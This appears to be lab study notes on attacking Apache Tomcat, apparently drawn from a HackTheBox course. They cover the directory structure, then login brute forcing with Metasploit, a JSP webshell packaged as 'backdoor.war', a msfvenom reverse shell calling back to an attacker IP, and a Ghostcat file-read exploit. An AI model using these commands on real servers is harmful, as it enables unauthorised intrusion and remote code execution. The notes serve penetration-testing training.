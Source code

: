 ## Info

**Manager**:`/manager`

```jsx
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. The `conf` folder stores various configuration files used by Tomcat. The `tomcat-users.xml` file stores user credentials and their assigned roles. The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. The `logs` and `temp` folders store temporary log files. The `webapps` folder is the default webroot of Tomcat and hosts all the applications. The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class

```

The most important file among these is `WEB-INF/web.xml`

```
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>
```

All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

The `tomcat-users.xml` file is used to allow or disallow access to the `/manager` and `host-manager` admin pages.

The file shows us what each of the roles `manager-gui`, `manager-script`, `manager-jmx`, and `manager-status` provide access to.

## Enumeration

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat`

**Directory Busting**

`L3pr3ch4un@htb[/htb]$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

**Login Brute forcing**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

`Wordlists`

- User: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
- Pass: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

**Code Execution**

Shell:`https://github.com/SecurityRiskAdvisors/cmd.jsp`

![](https://academy.hackthebox.com/storage/modules/113/vt2.png)

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backdoor.war cmd.jsp 
```

This file is uploaded to the manager GUI, after which the `/backdoor` application will be added to the table.

`[!bash!]$ curl http://web01.inlanefreight.local:8180/backup/backdoor.jsp?cmd=id`

**Reverse Shell**

```
[!bash!]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backdoor.war
```

Listner: `nc -lnvp 4443`

**Automation**

`exploit/multi/http/tomcat_mgr_upload/`

## Vulnerabilities

**CVE-2020-1938 : Ghostcat**

- Versions before 9.0.31, 8.5.51, and 7.0.100
- https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
- `[!bash!]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml`

